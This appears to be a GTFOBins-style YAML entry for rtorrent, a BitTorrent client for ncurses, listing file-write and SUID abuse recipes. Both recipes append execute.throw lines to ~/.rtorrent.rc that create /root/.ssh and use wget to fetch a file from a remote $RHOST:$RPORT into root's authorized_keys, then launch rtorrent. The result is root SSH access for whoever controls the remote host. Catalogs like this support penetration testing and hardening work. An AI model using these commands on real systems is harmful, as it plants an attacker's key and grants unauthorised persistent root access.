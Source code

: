 ```yaml
---
description: a BitTorrent client for ncurses.
functions:
  file-write:
    - code: |
        cat >> ~/.rtorrent.rc <<EOF
        execute.throw = mkdir,/root/.ssh
        execute.throw = wget,http://$RHOST:$RPORT/$RFILE,-O,/root/.ssh/authorized_keys
        EOF
        rtorrent
  suid:
    - code: |
        cat >> ~/.rtorrent.rc <<EOF
        execute.throw = mkdir,/root/.ssh
        execute.throw = wget,http://$RHOST:$RPORT/$RFILE,-O,/root/.ssh/authorized_keys
        EOF
        ./rtorrent
---
```

